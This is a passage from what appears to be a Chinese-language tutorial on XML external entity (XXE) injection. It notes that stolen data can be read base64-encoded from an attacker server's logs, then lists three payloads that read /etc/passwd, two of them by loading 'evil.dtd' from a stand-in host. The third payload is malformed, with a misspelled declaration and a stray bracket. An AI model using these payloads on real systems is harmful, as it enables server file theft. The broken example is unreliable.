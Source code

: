 

有报错直接查看报错信息。

无报错需要访问接受数据的服务器中的日志信息，可以看到经过base64编码过的数据，解码后便可以得到数据。

![img](Image/图像 4.png)

 

![img](Image/图像 5.png)

 

**这里列举几个案例：**

 

**恶意引入外部实体1：**

XML内容

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
      <!ENTITY b SYSTEM "file:///etc/passwd">
]>
<aaa>&b;</aaa>
```

**恶意引入外部实体2：**

XML内容

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
     <!ENTITY % d SYSTEM "http://yourhost/evil.dtd">
     %d;
]>
<aaa>&b;</aaa>
```



DTD文件（evil.dtd）内容：

```xml
<!ENTITY b SYSTEM "file:///etc/passwd">
```



**恶意引入外部实体3**

XML内容

```xml
<?xml verstion="1.0" encoding="utf-8"?>
<!DOCTYPE a SYSTEM "http://yourhost/evil.dtd">
]>
<c>&b;</c>
```
